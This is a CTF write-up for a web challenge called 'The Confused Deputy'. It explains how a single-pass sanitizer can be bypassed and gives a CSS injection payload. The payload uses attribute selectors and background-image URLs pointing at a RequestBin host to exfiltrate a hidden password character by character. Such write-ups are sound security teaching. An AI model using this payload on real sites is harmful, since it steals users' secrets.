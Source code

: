 ```yaml
---
layout: post
title: "The Confused Deputy"
author: "shreyas-sriram"
tags: ['Web']
---
```


Wow that's a pretty color! Don't you think? Pick your favourite and show it to the admin on /admin.

[http://chall.csivit.com:30256](http://chall.csivit.com:30256)

## Solution
* There are two input field :
	* `hidden input` with `value=<password>`
	* `visible input` where users can enter a color
* The entered input colors are sanitized and gets reflected in the `<style>` tag<br/>

```javascript
<style> .show {background-image: none; background-color: ${sanitized(input)}}</style>

function sanitized(content) {
        content = content.replace('<', '').replace('>', '');
        return content;
    }
```

* The sanitization is done only once, so it can be bypassed by using the following payload<br/>

```
<><malicious-payload>
```

* The santization removes `<>` and returns `<malicious-payload>`
* This is a case of `DOM-based XSS`, but XSS didn't execute on trying various payloads
* Then trying `CSS Injection` and using a RequestBinURL, it is possible to extract the password from the `hidden input` field<br/>

**Payload**<br/>
```
#000000;} input[type="password"][value^="<value-x>"] {background-image: url('https://<RequestBinURL>/<value-x>');
```

**Payload Explanation**<br/>
* `#000000;}` :
	* Closes the existing style element
* `input[type="password"][value^="<value-x>"] {background-image: url('https://<RequestBinURL>/<value-x>');` :
	* Creates a new style element for `input` tag whose `type=password` and `value` begins with `<value-x>`
* If the conditions satisfy, then a request is sent to the mentioned URL - `https://<RequestBinURL>/<value-x>`
* The entire password can be enumerated using the explained method
* Use `Burp Intruder` or write a script to automate the process


## Flag
```
csictf{cssxss}
```

